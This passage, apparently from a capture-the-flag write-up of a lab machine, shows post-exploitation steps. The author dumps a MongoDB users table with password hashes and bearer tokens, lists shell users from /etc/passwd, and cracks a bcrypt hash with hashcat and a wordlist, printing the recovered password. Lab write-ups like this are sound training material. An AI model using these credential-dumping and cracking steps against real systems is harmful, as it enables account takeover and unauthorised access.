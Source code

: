 There, I saw a users table, I will dump all info there:

```bash
> db.users.find()
{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MjI3MDA3MTJ9.VraBv7lpH4ZO1F9Hj-bcMc18N9HnzDEC7UJmGn6pAJs", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
{ "_id" : ObjectId("66ae473c4fc5faaa87a56175"), "name" : "gabri", "email" : "gabri@gabri.com", "password" : "$2b$10$6.hw.gx4qgWF7LacaO9OLO4K2OkvVQ4R2Z9Oc6AVzmP4zVTeK.39i", "terms" : true, "value" : false, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NmFlNDczYzRmYzVmYWFhODdhNTYxNzUiLCJpYXQiOjE3MjI2OTc1Mzl9.6DqDjpy73Ls7ns1rQcuI8pDeU_3Lp_ZI-cLhVbJLY1I", "__v" : 0 }
```

There are two relevant hashes, one for admin and another for frank_dorky (the one for gabri is mine). Looking at the /etc/passwd, there is a frank_dorky user and two more, kai_relay and librenms:

```bash
www-data@formulax:~/git-auto-update$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
librenms:x:999:999::/opt/librenms:/usr/bin/bash
kai_relay:x:1001:1001:Kai Relay,,,:/home/kai_relay:/bin/bash
frank_dorky:x:1002:1002:,,,:/home/frank_dorky:/bin/bash
```

As frank_dorky is a valid user in the system, I will try his hash first:

```bash
❯ hashcat -m 3200 frank_dorky.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<..SNIP..>

$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6:manchesterunited
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s...psB4J6
Time.Started.....: Sat Aug  3 18:10:35 2024 (37 secs)
Time.Estimated...: Sat Aug  3 18:11:12 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       75 H/s (6.62ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2800/14344385 (0.02%)
Rejected.........: 0/2800 (0.00%)
Restore.Point....: 2784/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: meagan -> j123456
Hardware.Mon.#1..: Util: 90%

Started: Sat Aug  3 18:10:31 2024
Stopped: Sat Aug  3 18:11:14 2024
```
